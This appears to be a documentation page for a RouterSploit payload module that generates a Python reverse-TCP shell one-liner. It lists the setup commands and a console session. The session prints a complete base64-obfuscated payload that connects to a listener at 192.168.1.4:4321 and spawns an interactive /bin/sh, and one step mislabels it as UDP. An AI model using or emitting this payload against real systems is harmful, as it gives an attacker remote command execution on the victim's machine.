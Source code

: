## Description

Module generates payload that creates interactive tcp reverse shell by using python one-liner. 

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/cmd/python_reverse_tcp`
  3. Do: `set lhost 192.168.1.4`
  4. Do: `set lport 4321`
  5. Do: `run`
  6. Module generates python udp reverse shell payload

## Scenarios

```
rsf > use payloads/cmd/python_reverse_tcp
rsf (Python Reverse TCP One-Liner) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (Python Reverse TCP One-Liner) > set lport 4321
[+] lport => 4321
rsf (Python Reverse TCP One-Liner) > run
[*] Running module...
[*] Generating payload
python -c "exec('aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zCnM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pCnMuY29ubmVjdCgoJzE5Mi4xNjguMS40Jyw0MzIxKSkKb3MuZHVwMihzLmZpbGVubygpLDApCm9zLmR1cDIocy5maWxlbm8oKSwxKQpvcy5kdXAyKHMuZmlsZW5vKCksMikKcD1zdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwiLWkiXSk='.decode('base64'))"
```
